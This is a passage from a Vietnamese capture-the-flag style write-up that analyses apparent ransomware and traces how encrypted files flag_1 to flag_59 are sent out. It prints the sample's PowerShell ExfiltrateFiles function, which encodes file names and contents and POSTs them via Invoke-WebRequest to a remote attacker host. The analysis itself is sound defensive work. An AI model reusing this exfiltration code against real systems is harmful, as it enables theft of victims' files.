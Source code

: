 </summary></details>

- Có thể thấy có nhiều tệp từ flag_1 đến flag_59 bị encrypt. Bây giờ ta xem nội dung nó sẽ bị mã hoá và gửi đi như thế nào

```
function ExfiltrateFiles {
   Invoke-WebRequest -useb "$7CiB`:$UFX/files" -Method GET 2>&1> $null 
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "No files have been encrypted!" ; if (!$RansomLogs) {
   foreach ($i in $(Get-ChildItem $Directory -recurse -filter *.enc | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) {
      $Pfile = $i.split($slash)[-1] ; $B64file = R64Encoder -f $i ; $B64Name = R64Encoder -t $Pfile
      Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
   else { $B64Name = R64Encoder -t "none.null" ; Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
```
- Từ đây ta thấy rằng chúng lọc tất cả các file có trong `$Directory` (trừ các file đã mã hoá), sau đó gửi lần lượt tên và dữ liệu của file lên
- Xét thằng $B64Name trước (biến này chứa tên)
```
$Pfile = $i.split($slash)[-1] ;
$B64Name = R64Encoder -t $Pfile
Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null
```
- Nhìn vào đây ta thấy tên được mã hoá bằng hàm R64Encoder. Còn đoạn `$Pfile = $i.split($slash)[-1]` chỉ là lấy tên từ đường dẫn đích thôi.
- Sau khi mã hoá gửi thông tin mã hoá chứa tên file thông qua lệnh POST và endpoint là /files
- Thử giải mã 1 vài đoạn dữ liệu thử xem có đúng không.
- ![aaananana](image/13.png)